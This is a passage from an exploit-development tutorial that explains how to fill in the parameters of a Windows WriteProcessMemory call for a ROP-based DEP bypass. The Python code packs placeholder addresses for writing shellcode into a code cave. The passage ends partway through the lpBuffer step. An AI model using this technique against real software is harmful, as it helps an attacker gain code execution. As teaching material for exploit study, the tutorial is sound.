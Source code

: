 ### hProcess

We don’t have to do much for the `hProcess` as the parameter should point to the current process, which in our instance would then be `0xFFFFFFFF` which we already hardcoded. The `handle` parameter is quite easy to fill - we can even use a static value. According to Microsoft Docs, `[GetCurrentProcess()](https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-getcurrentprocess)` returns a handle to the current process. More specifically, it returns a “*pseudo handle*” to the current process. A pseudo handle, denoted by -1 or `0xFFFFFFFF`, is “*special*” constant that refers to a handle to the current process. This means, whenever a Windows API function requests a handle (*generally in user mode*), passing `0xFFFFFFFF` will tell the API in question to utilize a handle to the current process. Since we would like to write our shellcode to memory within the process space - passing `0xFFFFFFFF` to the `kernel32!WriteProcessMemory` function call will tell the function we would like to write the memory to virtual memory within the current process space.

```python
#WriteProcessMemory 
va  = pack("<L", (0x45454545)) # dummy WriteProcessMemory Address
va += pack("<L", (0x42424242)) # Shellcode Return Address 0x42424242 where our codecave in the .text area exist
**va += pack("<L", (0xFFFFFFFF)) # hProccess = handle to current process (Pseudo handle = 0xFFFFFFFF points to current process)**
va += pack("<L", (0x44444444)) # lpBaseAddress Code cave address 0x44444444 where our codecave in the .text area exist
va += pack("<L", (0x49494949)) # # dummy lpBuffer (stack address)
va += pack("<L", (0x51515151)) # dummy nSize
va += pack("<L", (0x41414141)) # lpNumberOfBytesWritten
```

### lpBaseAddress

The `lpBaseAddress` should be equal to our shellcode address e.g. codecave. We update our WPM structure as follow replacing the `0x44444444` with `0xxxxxxxxx`.

```python
#WriteProcessMemory 
va  = pack("<L", (0x45454545)) # dummy WriteProcessMemory Address
va += pack("<L", (0x42424242)) # Shellcode Return Address 0x42424242 where our codecave in the .text area exist
va += pack("<L", (0xFFFFFFFF)) # hProccess = handle to current process (Pseudo handle = 0xFFFFFFFF points to current process)
**va += pack("<L", (**0x44444444**)) # lpBaseAddress Code cave address** 0x44444444 **where our codecave in the .text area exist**
va += pack("<L", (0x49494949)) # # dummy lpBuffer (stack address)
va += pack("<L", (0x51515151)) # dummy nSize
va += pack("<L", (0x41414141)) # lpNumberOfBytesWritten
```

### lpBuffer

The `lpBuffer` will be a pointer to our shellcode (********************************************which first needs to be written to the stack********************************************). We will resolve this dynamically with ROP gadgets. Let’s dive in. Recall that `kernel32!WriteProcessMemory` will take in a source buffer and write it somewhere else. 
